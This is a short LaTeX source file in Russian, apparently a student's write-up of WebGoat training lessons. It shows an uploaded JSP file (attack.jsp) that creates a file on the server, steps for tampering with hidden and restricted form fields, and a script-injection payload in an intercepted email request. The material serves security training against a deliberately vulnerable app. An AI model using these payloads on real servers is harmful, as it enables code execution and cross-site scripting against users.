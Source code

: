 \documentclass{article}
\begin{document}
Если на сервере неправильно настроены директории для сканирования скриптов, можно загрузить собственный исполняемый файл, перейти на интересующую старицу и выполнить злонамеренный код.

Содержимое файла attack.jsp
\begin{verbatim}
<HTML>
<%
java.io.File file = new java.io.File("C:\\Users\\llama\\Desktop\\secure\\.extract\\webapps\\WebGoat\\mfe_target\\webgoat.txt");
file.createNewFile();
%>
</HTML>
\end{verbatim}

\paragraph{Подделка параметров}
~

\begin{enumerate}
\item Bypas HTML Field Restrictions 

Перехватываем сообщение. Меняем все поля. Добавляем disabledinput.

\item Exploit Hidden Fields

Перехватываем, меняем...

\item Exploit unchecked email

Отправляем сообщение типа:
\begin{verbatim}
<script>alert("Bad Stuff");</script>
\end{verbatim}

Для отправки сообщения friend перехватываем сообщение меняем параметр "to" чтобы получилось: 
\begin{verbatim}
gId=GMail+id&gPass=password&subject=Comment+for+WebGoat&to=webgoat.admin
%40owasp.org&msg=%3Cscript%3Ealert(%22Bad+Stuff%22)%3B%3C%2Fscript%3E&SUBMIT=Send!
\end{verbatim}

\item Bypass Client Side JavaScript Validation

Аналогично.
\end{enumerate}
\end{document}
